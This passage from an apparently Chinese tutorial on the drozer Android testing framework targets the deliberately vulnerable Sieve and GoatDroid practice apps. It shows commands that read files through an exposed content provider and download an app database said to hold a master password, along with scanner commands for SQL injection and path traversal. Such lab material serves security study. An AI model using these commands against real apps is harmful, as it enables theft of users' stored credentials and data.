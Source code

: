 
##### 8.3、读取敏感信息

```shell
//读取手机内信息
run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
```

![image-20200628155031780](/images/drozer/image-20200628155031780.png)

```shell
//下载文件到本地
run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db ./database.db
```

![image-20200628155519778](/images/drozer/image-20200628155519778.png)

```shell
下载是sqlite文件并保存有主密码
```

![image-20200628155856692](/images/drozer/image-20200628155856692.png)



##### 8.4、自动检测

以上了解存在SQL注入和目录遍历漏洞，同样drozer提供了自动检测以上漏洞。(建议开始检测此组件前直接扫描是否存在SQL注入、目录遍历)

```shell
//自动检测SQL注入
dz> run scanner.provider.injection -a com.mwr.example.sieve
```

![image-20200628160315252](/images/drozer/image-20200628160315252.png)

```shell
//自动检测目录遍历
dz> run scanner.provider.traversal -a com.mwr.example.sieve
```

![image-20200628160431455](/images/drozer/image-20200628160431455.png)

#### 9、Services

一个 Service 是没有界面且能长时间运行于后台的应用组件，其它应用的组件可以启动一个服务运行于后台，即使用户切换到另一个应用也会继续运行；另外，一个组件可以绑定到一 个service来进行交互，即使这个交互是进程间通讯也没问题.例如，一个 service 可能处理网络事物，播放音乐，执行文件 I/O，或与一个内容提供者交互，所有这些都在后台进行。

````shell
//检测service
dz> run app.service.start --action com.mwr.example.sieve.AuthService
````

#### 10、Broadcast

```shell
//检测Broadcast组件
dz> run app.broadcast.info -a org.owasp.goatdroid.fourgoats
```

